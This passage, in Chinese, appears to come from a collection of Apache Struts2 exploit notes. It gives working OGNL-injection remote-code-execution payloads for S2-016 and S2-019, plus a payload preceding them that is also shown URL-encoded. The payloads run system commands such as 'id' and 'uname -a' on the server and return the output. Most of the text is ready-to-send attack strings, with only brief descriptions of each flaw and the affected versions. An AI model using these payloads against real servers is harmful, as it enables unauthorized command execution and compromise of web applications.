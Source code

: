 ```java
${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()),#q}.action
```

url编码发送

```url
%24%7b%23%63%6f%6e%74%65%78%74%5b%27%78%77%6f%72%6b%2e%4d%65%74%68%6f%64%41%63%63%65%73%73%6f%72%2e%64%65%6e%79%4d%65%74%68%6f%64%45%78%65%63%75%74%69%6f%6e%27%5d%3d%66%61%6c%73%65%2c%23%6d%3d%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2e%67%65%74%43%6c%61%73%73%28%29%2e%67%65%74%44%65%63%6c%61%72%65%64%46%69%65%6c%64%28%27%61%6c%6c%6f%77%53%74%61%74%69%63%4d%65%74%68%6f%64%41%63%63%65%73%73%27%29%2c%23%6d%2e%73%65%74%41%63%63%65%73%73%69%62%6c%65%28%74%72%75%65%29%2c%23%6d%2e%73%65%74%28%23%5f%6d%65%6d%62%65%72%41%63%63%65%73%73%2c%74%72%75%65%29%2c%23%71%3d%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%2c%23%71%7d%2e%61%63%74%69%6f%6e
```

#### S2-016

> 在struts2中，DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令
>
> 所以，访问`http://your-ip:8080/index.action?redirect:OGNL表达式`即可执行OGNL表达式
>
> **影响版本:** 2.0.0 - 2.3.15

poc

执行命令

```java
redirect:${#context["xwork.MethodAccessor.denyMethodExecution"]=false,#f=#_memberAccess.getClass().getDeclaredField("allowStaticMethodAccess"),#f.setAccessible(true),#f.set(#_memberAccess,true),#a=@java.lang.Runtime@getRuntime().exec("uname -a").getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[5000],#c.read(#d),#genxor=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#genxor.println(#d),#genxor.flush(),#genxor.close()}
```

需要将冒号后边的内容url编码，去除特殊字符，执行命令后下载文件

#### S2-019

> 动态方法调用的默认启用，原理类似于s2-008
>
> Apache Struts 2的“Dynamic Method Invocation”机制是默认开启的，仅提醒用户如果可能的情况下关闭此机制，这样就存在远程代码执行漏洞，远程攻击者可利用此漏洞在受影响应用上下文中执行任意代码

poc

```java
?debug=command&expression=#a=(new java.lang.ProcessBuilder('id')).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#out=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),#out.getWriter().println(new java.lang.String(#e)),#out.getWriter().flush(),#out.getWriter().close()
// 利用是先进行url编码    
```
